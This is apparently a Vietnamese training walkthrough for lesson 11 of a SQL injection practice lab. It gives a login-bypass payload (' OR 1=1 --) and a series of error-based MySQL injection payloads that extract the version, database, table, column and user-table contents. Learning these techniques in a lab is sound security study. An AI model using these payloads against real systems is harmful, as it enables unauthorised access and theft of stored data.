








# Những việc làm được với lesson-11
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. 

Sau khi đăng nhập vào lesson-11



Ta sẽ nhập ký tự đặc biệt và các ký tự và `username` và `password`. Sau đó sẽ được xuất ra lỗi như dưới đây 



Một method post cũng giống như một truy vấn có cấu trúc của `username` `password`. Nếu `username` và `password` đúng sẽ được pass qua.
```
SELECT * FROM users WHERE username = 'xxx@xxx.xxx' AND password = md5('1234');
```
Để có thể pass qua được mà không có `username` và `password` thì ta cần thêm một điều kiện luôn đúng nối ở đằng sau username 
```
SELECT * FROM users WHERE username = 'xxx@xxx.xxx' OR 1 = 1 LIMIT 1 -- ' ] AND password = md5('1234');
```
1. Pass qua đăng nhập 

Quay lại bài 11 này thì lệnh post này cũng giống như một truy vấn vậy. Ta sẽ cần tìm cấu trúc của nó và thêm điều kiện luôn đùng nối đằng sau truy vấn. Điều kiện luôn đúng là 
```
OR 1 = 1 -- 
```



Sau khi pass được qua ta có thể sử dụng limit để có thể thay đổi user khác 
```
' OR 1 = 1 limit 1,1 -- 
```



2. Truy xuất dữ liệu. 

Ta thấy ở bài này có xuất ra lỗi. Vậy ta có thể sử dụng được kiểu error-based để có thể xem được cơ sở dữ liệu của bài này. Ta đã có được cấu trúc truy vấn của bài này ở trên rồi 
```
' and (SELECT 0 FROM (SELECT count(*), CONCAT((@@version), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) -- 
```



- Lấy tên DB hiện tại 
```
' and (SELECT 0 FROM (SELECT count(*), CONCAT((select database()), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) -- 
```

Chúng ta làm tương tự bài 5 để có được toàn bộ cơ sở dữ liệu sẽ mất khá nhiều thời gian. Ở đây tôi làm mẫu một số ví dụ 

3. Hiển thị table của một DB nào đó đã biết tên

```
' and (SELECT 0 FROM (SELECT count(*), CONCAT((SELECT table_name from information_schema.tables where table_schema='security' limit 0,1
), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) -- 
```



4. Hiển thị tên cột trong một bảng 

```
' and (SELECT 0 FROM (SELECT count(*), CONCAT((SELECT COLUMN_NAME FROM information_schema.columns WHERE table_schema='security' AND table_name='users' limit 0,1
), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) -- 
```


5. Show từng dữ liệu trong từng cột của một bảng 

```
' and (SELECT 0 FROM (SELECT count(*), CONCAT((select id from security.users limit 0,1
), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) -- 
```



6. Show tên của từng DB 
```
' and (SELECT 0 FROM (SELECT count(*), CONCAT((select SCHEMA_NAME from information_schema.schemata limit 1,1
), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) -- 
```



Ta có thể thấy hết được dữ liệu bằng cách thay đổi limit như ta đã từng làm ở các lesson trước 
